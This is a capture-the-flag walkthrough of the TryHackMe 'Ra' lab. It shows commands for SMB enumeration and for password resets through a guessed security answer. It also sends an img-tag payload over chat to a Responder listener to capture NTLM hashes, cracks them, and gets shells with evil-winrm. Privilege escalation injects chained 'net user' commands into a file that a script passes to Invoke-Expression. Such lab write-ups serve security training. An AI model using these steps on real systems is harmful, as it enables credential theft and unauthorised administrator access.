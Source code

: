 ```yaml
---
date: 2025-04-13
categories: [CTF, THM]
title: "THM - Ra"
tags: ['hashcat', 'john the ripper', 'linux', 'nmap', 'powershell', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows']

description: "Ra - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Ra

NMAP

![image1](../resources/8906737690fe4969b794dacdb443efbe.png)
 

![image2](../resources/ea4a09b3c8ca48fc918a28318ded183b.png)

- Add windcorp.thm and fire.windcorp.thm to /etc/hosts

![image3](../resources/abc8141094704b8b94506719ac7a2052.png)

- On the website there is a Reset password button


![image4](../resources/da51e79efa3c430a9073609676bca745.png)


![image5](../resources/f2c3a93ffdac439ea71393857cb11218.png)

There is a question about your favourite pets name

And we can see that Lily is holding her dog

- Inspecting the picture we can see the dogs name - Sparky and Lily's username - **lilyle**


![image6](../resources/bf8ebf1614094690bf8e77e4ee9d499f.png)

- Reset the password


![image7](../resources/5d49410733974966be169a6f389d2c8b.png)

- We can check if it worked using CME:

```bash
crackmapexec smb windcorp.thm -u lilyle -p ChangeMe#1234

```

![image8](../resources/cb851d01db29483488a032d7baabcbc2.png)

- If it was wrong it would've shown:

![image9](../resources/a8c3a64499d34a9abe4e7a7842f1aea6.png)

- Run enum4linux again with credentials:
```bash
enum4linux -u windcorp.thm/lilyle -p ChangeMe#1234 -a 10.10.128.53

```

![image10](../resources/96cd4bab859849e9b62c65dfb183c748.png)

- Connect to shares
```bash
smbclient //10.10.128.53/users -U windcorp.thm/lilyle%ChangeMe#1234

```

![image11](../resources/91b2052e029c487ca2444918db024922.png)

```bash
smbclient //10.10.128.53/Shared -U windcorp.thm/lilyle%ChangeMe#1234

```

![image12](../resources/c9fdbd7b1f314b6d9369bbce2dddd9de.png)

- Looking at the files in the share. The files are for an app called Spark which is a client that talks to the Openfire backend

- Looking for vulnerabilities - Found: <https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md>
Which the creators of Ra made (so gotta be it)

- More Enum:

![image13](../resources/912a541604ca4877a6c3984cc7e376bc.png)

- Doing inspect network:

![image14](../resources/21188f087d94477b8298bb1cf3a2c34d.png)

- **Openfire (xmpp) usersnames potentially**

Save in file and

```bash
cat users_xmpp_info| cut -d ":" -f 4 | cut -d "@" -f 1 > xmpp_users

```

![image15](../resources/18f388baeaa647dab392f8fb2d486939.png)

- This spark app part, I had to do on the THM Attack box (dependency issues)
```bash
dpkg -i spark_2_8_3.deb

```

![image16](../resources/e9188badf0dd4e00bd5296563d1d0e87.png)

- Just type:
```bash
spark
```

![image17](../resources/10a223938a94415ea7e89448cc3a7c55.png)

- Login with:
lilyle : ChangeMe#1234

Tick Login as invisible


![image18](../resources/91306d9cc1c247c9b59b745d0f10e6ee.png)

- Tick these:

![image19](../resources/752e1e7070fa4160acaa12dabf01eb0a.png)

- Tried this Spark part for ages and keep getting different errors ie.

![image20](../resources/328c4957a3bb4c978ad1aa0257ff60f3.png)

Moving on:

- Set up Responder:
```bash
sudo responder -I tun0

```
- Craft a message and send it to everyone in the Openfire users list, with the following in:
```bash
<img src=http://yourtun0IP/a.png>

<img src="http://10.10.14.66/a.png">

```
- Got a hash for buse

![image21](../resources/02ff9ff0a13644239c6a7d49586753e7.png)

- Save in file (hash) - **Make sure it's all on one line**

- Crack with john:
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

```

![image22](../resources/12c2aa19c59e4608acfc54edb3ada15b.png)

- Or hashcat:
```bash
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt

```

![image23](../resources/cf2403c39d3b41e984c97d6e1f5525d0.png)

- Got credentials **buse : uzunLM+3131**

- Get shell with evil-winrm:
```bash
evil-winrm -i 10.10.103.165 -u buse -p uzunLM+3131

```

![image24](../resources/51196acbea614604bfdb0e29217e087a.png)

- Everything else in there is a rabbithole

- Suspicious folder in C:\\ that isn't part of the default Windows install (scripts)

![image25](../resources/93e37497fe884a0eb09cb4233990e5d0.png)


![image26](../resources/bb74330a31bd440ea17d0ecc1fd9457b.png)

- When we read the powershell script file

![image27](../resources/046b10acf70247ddab7a60030d6e8f2d.png)

- Two important things:
It gets it's contents from C:\Users\brittanycr\hosts.txt

And it invokes Invoke-Expression

**\*\* Invoke-Expression cmdlet - runs any specified string as a command and returns the results to the console**

- We don't have rights to change or replace the ps1 script or the hosts.txt file in britannycr's directory

- Doing enumeration on the user we have:
```bash
whoami /all

```

![image28](../resources/3dc589c4e11d44dabfd05f06e468d533.png)

- After checking all the groups - one stands out:
**Account Operators**


![image29](../resources/603155f5c5e74c478ded7318e190b139.png)

- With this we can try and change brittanycr's password:

```bash
net user brittanycr Password123! /domain

```

![image30](../resources/b91db5b3d2704154b86f5099a70e7bf1.png)

- We can connect straight to the Users folder through SMB:
```bash
smbclient //10.10.103.165/Users/ -U windcorp.thm/brittanycr%Password123!

```

![image31](../resources/9dd916a9750f4407a67b0ed70306822b.png)

- Create a new hosts.txt file with the following:
```bash
;net user tom Password123! /add;net localgroup Administrators tom /add

```
- The reverse shell scripts got stopped by Windows Defender

- Upload and replace file on SMB (wait 1min for the script to run)


![image32](../resources/6fca0037e4994df1ba9fe2446dd38523.png)


![image33](../resources/cc0d8831ef5b44c7906fbc62fb706112.png)

- Verify with crackmapexec as well:
```bash
crackmapexec smb windcorp.thm -u tom -p "Password123\!"

```

![image34](../resources/36bfe6f6ec4040f8b33fb086f5107ae8.png)

- Use Evil-winrm:
```bash
evil-winrm -i 10.10.103.165 -u tom -p Password123!

cat flag3.txt

```